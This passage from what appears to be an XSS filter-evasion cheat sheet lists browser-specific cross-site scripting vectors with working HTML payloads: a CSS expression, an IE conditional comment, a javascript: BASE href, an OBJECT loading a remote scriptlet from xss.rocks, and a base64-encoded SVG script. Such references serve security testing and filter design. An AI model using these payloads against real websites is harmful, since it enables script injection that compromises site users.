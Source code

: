 ### DIV Expression

A variant of this was effective against a real world cross site scripting filter using a newline between the colon and "expression":

```html
<div style="width: expression(alert('XSS'));"></div>
```

## Downlevel-Hidden Block

Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our Cross Site Scripting vector. Or the system could add comment tags around something to attempt to render it harmless. As we can see, that probably wouldn't do the job:

```html
<!--[if gte IE 4]>
  <script>
    alert('XSS');
  </script>
<![endif]-->
```

## BASE Tag

Works in IE and Netscape 8.1 in safe mode. You need the `//` to comment out the next characters so you won't get a JavaScript error and your XSS tag will render. Also, this relies on the fact that the website uses dynamically placed images like `images/image.jpg` rather than full paths. If the path includes a leading forward slash like `/images/image.jpg` you can remove one slash from this vector (as long as there are two to begin the comment this will work):

```html
<base href="javascript:alert('XSS');//" />
```

## OBJECT Tag

If they allow objects, you can also inject virus payloads to infect the users, etc. and same with the APPLET tag). The linked file is actually an HTML file that can contain your XSS:

```html
<object type="text/x-scriptlet" data="http://xss.rocks/scriptlet.html"></object>
```

## EMBED SVG Which Contains XSS Vector

This example only works in Firefox, but it's better than the above vector in Firefox because it does not require the user to have Flash turned on or installed. Thanks to nEUrOO for this one.

```html
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```
